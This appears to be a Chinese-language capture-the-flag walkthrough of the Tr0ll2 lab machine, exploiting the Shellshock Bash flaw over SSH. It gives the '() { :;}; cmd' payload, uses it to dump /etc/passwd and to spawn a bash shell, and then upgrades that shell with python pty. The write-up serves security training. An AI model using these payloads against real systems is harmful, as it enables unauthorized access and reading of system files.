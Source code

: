 Shellshock，又称Bashdoor，是在Unix中广泛使用的Bash shell中的一个安全漏洞，首次于2014年9月24日公开。shellshock Bash 漏洞利用CVE-2014-6271可以通过 SSH 被利用！

查看当前shell 的设置是否为bash
利用'() { :;}; cmd' 这个payload让操作系统将) { :;}; 误认为是函数环境变量！

```bash
ssh -i noob noob@192.168.0.102 -o 'PubkeyAcceptedKeyTypes +ssh-rsa' '() { :;}; cat /etc/passwd'
```

```bash
└─# ssh -i noob noob@192.168.0.102 -o 'PubkeyAcceptedKeyTypes +ssh-rsa' '() { :;}; cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
maleus:x:1000:1000:Tr0ll,,,:/home/maleus:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:111:ftp daemon,,,:/srv/ftp:/bin/false
noob:x:1002:1002::/home/noob:/bin/bash
Tr0ll:x:1001:1001::/home/tr0ll:/bin/false
```

3、得到权限

```bash
└─# ssh -i noob noob@192.168.0.102 -o 'PubkeyAcceptedKeyTypes +ssh-rsa' '() { :;}; /bin/bash'                                                               255 ⨯
id
uid=1002(noob) gid=1002(noob) groups=1002(noob)
```

# 得到完美操作的shell

1、

```bash
└─# ssh -i noob noob@192.168.0.102 -o 'PubkeyAcceptedKeyTypes +ssh-rsa' '() { :;}; /bin/bash'                                                               255 ⨯
id
uid=1002(noob) gid=1002(noob) groups=1002(noob)
python -c 'import pty; pty.spawn("/bin/bash")'
noob@Tr0ll2:~$ export TERM=xterm
export TERM=xterm
noob@Tr0ll2:~$ 
```
